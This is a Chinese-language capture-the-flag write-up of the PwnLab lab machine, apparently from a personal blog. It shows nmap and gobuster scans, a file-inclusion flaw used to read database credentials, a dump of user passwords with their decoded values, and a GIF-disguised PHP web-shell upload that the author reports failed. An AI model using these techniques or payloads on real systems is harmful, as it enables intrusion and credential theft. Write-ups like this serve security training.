

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80,111,3306,43249  192.168.10.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-04 08:16 EDT
Nmap scan report for 192.168.10.19
Host is up (0.00049s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: PwnLab Intranet Image Hosting
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41143/udp6  status
|   100024  1          43249/tcp   status
|   100024  1          43611/udp   status
|_  100024  1          56835/tcp6  status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 40
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, FoundRows, Speaks41ProtocolOld, LongColumnFlag, Speaks41ProtocolNew, ConnectWithDatabase, DontAllowDatabaseTableColumn, InteractiveClient, IgnoreSigpipes, SupportsTransactions, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, LongPassword, SupportsCompression, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ZH;-oh<1"Vk6j6j4d|c[
|_  Auth Plugin Name: mysql_native_password
43249/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:18:80:DE (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.44 seconds
```

## web渗透

### 目录扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster  dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.19/ -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.19/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 332]
/images               (Status: 301) [Size: 315] [--> http://192.168.10.19/images/]
/.php                 (Status: 403) [Size: 292]
/login.php            (Status: 200) [Size: 250]
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.19/upload/]
/upload.php           (Status: 200) [Size: 19]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 301]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

找到config.php

### LFI

首页?page=处存在文件包含
得到账号密码

root/H4u%QJ_H99

### MySQL提取信息

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.016 sec)

MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.017 sec)
```

kent/JWzXuBJJNy
mike/SIfdsTEn6I
kane/iSv5Ym2GRo

### cookie文件包含


这里存在cookie的文件包含

```php
GIF89a
<script language = 'php'> phpinfo();$_GET[x];</script>
```
传了这个马，但是尝试了很多次都没有成功执行

看之前写的wp吧。。